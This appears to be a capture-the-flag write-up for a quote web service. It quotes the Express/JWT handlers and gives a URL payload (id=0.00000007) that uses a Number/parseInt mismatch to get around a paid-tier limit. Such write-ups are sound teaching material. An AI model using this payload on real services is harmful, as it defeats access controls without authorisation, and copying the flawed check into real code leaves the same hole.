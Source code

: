 
---

# Solution
First we need to go to register endpoint to get cookie
```javascript
app.get("/register", (req, res) => {
  const token = jwt.sign(
    {
      subscribed: false,
    },
    SECRET_KEY,
    { expiresIn: "1h" }
  );

  res.cookie(COOKIE_NAME, token, {
    httpOnly: true,
    secure: true,
    maxAge: 3600000,
  });
  res.status(200);
  res.send({ message: "Signed in!" });
});
```

The server take the id in the request parameter then response with a quote according to the id. There is a condition that if the id exceed the free limit(5), we wont get anything. But the id is parse to Number method and parseInt method
```javascript
  if (id) {
    const i = Number(id);

    if (!decoded.subscribed && i >= FREE_TIER_QUOTE_LIMIT) {
      res.status(500);
      res.send({ error: "Not a paying subscriber" });
      return;
    }

    if (i < 0 || i >= quotes.length) {
      res.status(500);
      res.send({ error: "Invalid quote ID" });
      return;
    }

    const quote = quotes[parseInt(i)];

    res.status(200);
    res.send({ quote, id: i });
    return;
  }
```
# Payload
```
http://yourlink/quote?id=0.00000007
```
We can bypass the filter by exploiting the parseInt function.
[Explanation](https://stackoverflow.com/questions/69613606/why-does-javascripts-parseint0-0000005-print-5)

---

